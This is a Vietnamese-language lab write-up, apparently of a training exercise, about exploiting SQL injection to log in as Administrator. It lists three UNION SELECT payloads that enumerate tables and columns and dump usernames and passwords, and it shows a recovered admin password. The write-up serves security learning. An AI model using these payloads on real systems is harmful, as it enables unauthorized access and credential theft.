





## 🔐 Câu 5: SQL Injection - Đăng nhập với tài khoản Administrator

### 🎯 Mục tiêu
Khai thác SQL injection để lấy thông tin tài khoản administrator và thực hiện đăng nhập trái phép.
<div align="center">
  
  <br>
  <em>Hình 4: Giao diện trang web và các điểm có thể bị tấn công SQL injection</em>
</div>

### 🔍 Quá trình thực hiện

#### 🔸 Bước 1: Liệt kê tất cả các bảng trong database
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

> **📊 Kết quả:**
- ✅ Lấy được danh sách tất cả các bảng trong database
- ✅ Xác định các bảng có khả năng chứa thông tin người dùng
<div align="center">
  
  <br>
  <em>Hình 5: Minh họa kết quả</em>
</div>
#### 🔸 Bước 2: Xác định bảng chứa thông tin người dùng
- 🔍 Phân tích danh sách bảng đã lấy được
- 🎯 Xác định bảng `users_ifhciw` có khả năng cao nhất chứa thông tin người dùng

#### 🔸 Bước 3: Liệt kê các cột trong bảng users
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_ifhciw'--
```

> **📊 Kết quả:**
- ✅ Lấy được các trường: `password_pphepo`, `email`, `username_aaxkto`
- ✅ Xác định cấu trúc bảng chứa thông tin đăng nhập
<div align="center">
  
  <br>
  <em>Hình 6: Minh họa kết quả</em>
</div>

#### 🔸 Bước 4: Lấy thông tin tài khoản
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+username_aaxkto,+password_pphepo+FROM+users_ifhciw--
```

> **📊 Kết quả:**
- ✅ Lấy được bảng chứa các tài khoản và mật khẩu
- ✅ Tìm thấy tài khoản administrator
<div align="center">
  
  <br>
  <em>Hình 7: Minh họa kết quả</em>
</div>

### 🚨 Thông tin tài khoản bị lộ
```bash
┌───────────────┬─────────────────────────┐
│ Username      │ Password                │
├───────────────┼─────────────────────────┤
│ Administrator │ Gfr2yx3szz63wprrvxig   │
└───────────────┴─────────────────────────┘
```

#### 🔸 Bước 5: Thực hiện đăng nhập
- 🔑 Sử dụng thông tin tài khoản đã lấy được
- ✅ Thực hiện đăng nhập thành công với quyền administrator
<div align="center">
  
  <br>
  <em>Hình 8: Minh họa kết quả</em>
</div>
### 🎯 Kết luận
> ⚠️ **Cảnh báo nghiêm trọng:** Đã thành công khai thác lỗ hổng SQL injection để:

1. 📊 **Liệt kê cấu trúc database**
2. 🔓 **Lấy thông tin tài khoản administrator**
3. 🚪 **Thực hiện đăng nhập trái phép với quyền cao nhất**

> 💥 **Tác động:** Điều này cho thấy hệ thống có lỗ hổng bảo mật nghiêm trọng, cho phép kẻ tấn công có thể:
- 🗄️ Truy cập toàn bộ dữ liệu trong database
- 👤 Lấy thông tin nhạy cảm của người dùng
- 👑 Thực hiện các hành động với quyền administrator

---

